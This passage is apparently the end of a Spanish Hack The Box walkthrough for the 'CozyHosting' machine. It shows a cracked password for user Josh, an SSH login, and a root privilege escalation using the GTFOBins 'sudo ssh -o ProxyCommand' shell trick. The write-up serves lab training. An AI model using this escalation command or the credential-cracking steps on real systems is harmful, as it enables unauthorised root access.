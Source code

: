 Intentaremos crackear el de admin usando John

![](/assets/img/htb-cozyHosting/12.png)

Y tenemos la contraseña: **manchesterunited** para el usuario **Josh**

Ahora ya nos podemos conectar por SSH

```ruby
josh@cozyhosting:~$ ls -l | grep user.txt
-rw-r----- 1 root josh 33 Sep 15 20:32 user.txt
```

Si mostramos permisos a nivel de sudoers usando **sudo -l**: tenemos el ssh

```ruby
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Haciendo una busqueda rapida en [GTOBins](https://gtfobins.github.io/gtfobins/ssh/) podemos ver que podemos hacernos root ejecutando:

```ruby
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Y ya seriamos root:

![](/assets/img/htb-cozyHosting/13.png)

Eso ha sido todo, gracias por leer ❤